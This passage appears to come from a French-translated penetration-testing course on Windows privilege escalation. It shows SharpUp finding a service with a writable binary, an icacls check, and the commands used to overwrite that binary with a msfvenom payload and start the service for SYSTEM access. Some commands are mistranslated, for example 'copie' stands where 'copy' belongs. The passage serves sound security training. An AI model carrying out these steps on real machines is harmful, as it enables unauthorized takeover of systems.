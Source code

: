 === SharpUp : Exécuter des vérifications d'escalade de privilèges ===

=== Fichiers binaires de service modifiables ===

   Nom : SecurityService
   Nom d'affichage : Service de gestion de la sécurité PC
   Description : Responsable de la gestion de la sécurité des PC
   Etat : Arrêté
   Mode de démarrage : Auto
   Nom du chemin : "C:\Program Files (x86)\PCProtect\SecurityService.exe"

   <SNIP>

```

L'outil identifie le `PC Security Management Service`, qui exécute le binaire `SecurityService.exe` au démarrage.

#### Vérification des autorisations avec icacls

À l'aide [icacls](https://ss64.com/nt/icacls.html) nous pouvons vérifier la vulnérabilité et voir que les groupes `EVERYONE` et `BUILTIN\Users` ont reçu des autorisations complètes sur le répertoire, et donc tout un utilisateur système non privilégié peut manipuler le répertoire et son contenu.

Vérification des autorisations avec icacls

```
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users :(I)(F)
                                                      Tout le monde :(I)(F)
                                                      AUTORITÉ NT\SYSTÈME :(I)(F)
                                                      INTÉGRÉ\Administrateurs :(I)(F)
                                                      AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION :(I)(RX)
                                                      AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION RESTREINTS :(I)(RX)

Traitement réussi de 1 fichiers ; Échec du traitement de 0 fichiers

```

#### Remplacement du binaire du service

Ce service peut également être démarré par des utilisateurs non privilégiés, nous pouvons donc faire une sauvegarde du binaire d'origine et le remplacer par un binaire malveillant généré avec `msfvenom`. Il peut nous donner un shell inversé en tant que `SYSTEM`, ou ajouter un utilisateur administrateur local et nous donner un contrôle administratif total sur la machine.

Remplacement du binaire de service

```
C:\htb> cmd /c copie /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService

```

* * * * *

Autorisations de service faibles
------------------------

#### Revoir SharpUp à nouveau

Vérifions à nouveau la sortie `SharpUp` pour tous les services modifiables. Nous constatons que `WindscribeService` est potentiellement mal configuré.

Revoir SharpUp à nouveau

```